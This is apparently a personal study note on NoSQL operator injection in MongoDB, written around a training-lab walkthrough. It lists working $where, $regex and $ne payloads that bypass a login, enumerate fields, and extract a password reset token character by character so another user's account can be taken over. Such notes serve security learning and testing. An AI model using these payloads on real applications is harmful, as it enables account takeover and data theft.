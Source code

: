 ## Exploiting NoSQL operator injection to extract data

Even if the original query doesn't use any operators that enable you to run arbitrary JavaScript, you may be able to inject one of these operators yourself. You can then use boolean conditions to determine whether the application executes any JavaScript that you inject via this operator.

{% code overflow="wrap" fullWidth="true" %}
```sh
######################## Injecting operators in MongoDB
# Consider a vuln app that accepts username and password in the body of a POST request:
{"username":"wiener","password":"peter"}
# To test whether you can inject operators -> add $where operator as an additional parameter to evaluates to false/true
{"username":"wiener","password":"peter", "$where":"0"}
{"username":"wiener","password":"peter", "$where":"1"}
# If there is a difference between the responses -> JavaScript expression in the $where clause is being evaluated. 

####################### Extracting field names
# If you could inject an operator that enables you to run JavaScript -> keys() to extract the name of data fields:
"$where":"Object.keys(this)[0].match('^.{0}a.*')" # inspects first field in the object and return first char
# This enables you to extract the field name character by character. 

####################### Exfiltrating data using operators
# You may be able to use the $regex operator to extract data character by character. 
#  Consider a vuln app that accepts a username and password in the body of a POST request:
{"username":"myuser","password":"mypass"}
# You could start by testing whether the $regex operator is processed as follows:
{"username":"admin","password":{"$regex":"^.*"}}
# If response different to when you submit an incorrect password -> app may be vulnerable
# Then you can use the $regex operator to extract data character by character -> check if password begins with an a
{"username":"admin","password":{"$regex":"^a*"}}

# EXAMPLE: Exploiting NoSQL operator injection to extract unknown fields
- Check POST /login request {"username":"wiener","password":"peter"}
- Try to bypass it w/ {"username":"wiener","password":{"$ne":"invalid"}}
- We saw it works but w/ username carlos we see "account locked: please reset your password"
- Using {"username":"carlos","password":{"$ne":"invalid"},"$where":"1"} and w/ "$where":"0" we see different responses
- That means $where clause is being evaluated so we can inject operators
- Get fields -> {"username":"carlos","password":{"$ne":"invalid"},"$where":"Object.keys(this)[1].match('^.{0}a.*')"}
- Intruder > Cluster bomb > add payloads to [0] (numbers from 1-20) and {0} (a-z, A-Z, 0-9)
- With that we identify 1st field sorting by Length -> # then change (this)[2] and others to retrieve more fields
- In this case, the fourth field is resetPwdToken
- Try this parameter on other requests -> /forgot-password endpoint found that accepts the parameter as GET request
GET /forgot-password?resetPwdToken=a
- Previous request said "Invalid token" so we know that is the good way to reset our pwd once we get the reset token
- We confirm we can inject that parameter and says "account locked" with a true statement like this:
{"username":"carlos","password":{"$ne":"invalid"},"resetPwdToken":{"$ne":""}}
- Now to extract the resetPwdToken we use $where clause with match 
{"username":"carlos","password":{"$ne":"invalid"},"$where":"this.resetPwdToken.match(/^.*/)"}
- Use Burp Intruder "$where":"this.YOURTOKENNAME.match('^.{§§}§§.*')"
Make sure that you replace YOURTOKENNAME with the password reset token name that you exfiltrated in the previous step. 
- Finally, go to /forgot-password?resetPwdToken=XXX with the real token and reset carlos password
```